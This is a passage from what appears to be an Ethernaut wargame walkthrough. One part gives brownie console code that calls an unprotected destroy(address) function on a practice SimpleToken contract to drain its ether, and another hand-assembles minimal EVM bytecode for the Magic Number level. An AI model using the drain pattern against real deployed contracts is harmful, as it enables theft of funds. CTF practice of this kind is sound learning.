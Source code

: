 In the brownie console:

    #load in the SimpleToken address from the explorer (I'll show mine below)
    simpleTokenAddress = '0xD2ca5aB4801Bad097018112126a33065777C8c20'

    import eth_abi
    sig = web3.keccak(text='destroy(address)')[:4].hex()
    params = eth_abi.encode_single('(address)',[player.address]).hex()
    payload = sig + params
    player.transfer(to=simpleTokenAddress, data=payload)

If you still have the SimpleToken address loaded in your explorer, you can see that it now has an ether balance of 0. Submit the level and move on!

## 19. Magic Number

There are actually two ways you can solve this level. You can deploy a contract that uses inline assembly within the constructor to store the runtime bytecode, or you can manually construct both the initialization and runtime bytecode to be deployed directly to the chain. I'll show both. 

In both cases, we need to build the runtime bytecode, so we'll start there. Refer to https://www.evm.codes/?fork=grayGlacier as you follow along.

We need to use 10 or less opcodes to return a value of 42, which is 0x2a in hex. To return a value, we first need to store it in memory, so we'll be using `MSTORE` which has an opcode of 52 and takes 2 arguments, the value to be stored and the memory location to store it at, both of which must be added to the stack using `PUSH1`. `PUSH1` is the command for pushing a 1 byte item onto the stack.

Then we need to build our return bytecode. Return also takes 2 arguments, the size of the data being returned and its location in memory.

Our runtime bytecode can therefore be built as follows:

    602a    // PUSH1 0x2a (42 - the item we want to return)
    6000    // PUSH1 0x00 (we'll use 0 for our memory location)
    52      // MSTORE
    6020    // PUSH1 0x20 (32 bytes)
    6000    // PUSH1 0x00 (memory slot again)
    f3      // RETURN

So we've got 602a60005260206000f3 - which is exactly 10 bytes long!

Now we need to set up our initialization bytecode. We'll start off with `CODECOPY` which takes 3 arguments off the stack: the offset in memory where we want to copy to, the offset within the code we want to copy, and the size of the code we want to copy. 

Our initialization bytecode:

    600a    // PUSH1 0x0a (10 bytes - the size of our runtime bytecode)
    600c    // PUSH1 0x0c (initialization code will be 12 bytes, so runtime will start at position 12)
    6000    // PUSH1 0x00 (start at position 0)
    39      // CODECOPY
    600a    // PUSH1 0x0a (size of runtime bytecode again)
    6000    // PUSH1 0x00 (memory offset)
    f3      // RETURN

Altogether it's 600a600c600039600a6000f3
